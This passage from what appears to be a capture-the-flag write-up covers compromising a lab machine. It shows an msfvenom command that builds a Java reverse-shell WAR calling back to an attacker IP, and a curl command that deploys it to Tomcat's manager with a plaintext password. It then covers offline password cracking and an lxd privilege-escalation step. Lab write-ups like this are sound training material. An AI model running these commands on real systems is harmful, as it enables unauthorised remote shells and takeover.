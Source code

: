 ```
# msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f war -o rev.war
```

Upload the WAR file like so.

```
# curl -T rev.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/rev'
```

Run the web application `http://10.10.10.194:8080/rev/`.

{% include image.html image_alt="755c6375.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/755c6375.png" %}

### Getting `user.txt`

It should be obvious that `user.txt` is in `ash`'s home directory but how do we get access to `ash`'s account?

{% include image.html image_alt="f861c817.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/f861c817.png" %}

I've transferred a copy to my local machine for further analysis. Looks like it's password-protected.

{% include image.html image_alt="446e825b.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/446e825b.png" %}

John the Ripper to the rescue.

{% include image.html image_alt="3e868b1b.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/3e868b1b.png" %}

Offline cracking is fast.

{% include image.html image_alt="7c9d4096.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/7c9d4096.png" %}

Maybe `admin@it` is `ash`'s password?

{% include image.html image_alt="27dae7d8.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/27dae7d8.png" %}

Indeed it is.

## Privilege Escalation

During enumeration of ash's account, I notice that the account is a member of the `lxd` group. As such, it's susceptible to a privilege escalation exploit described [here](https://www.hackingarticles.in/lxd-privilege-escalation/). Lucky for me, someone built the Alpine image and uploaded to `ash`'s home directory, saving me time and bandwidth.

{% include image.html image_alt="845d4a0e.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/845d4a0e.png" %}

Furthermore, the container is already running. :laughing:

{% include image.html image_alt="18595b99.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/18595b99.png" %}
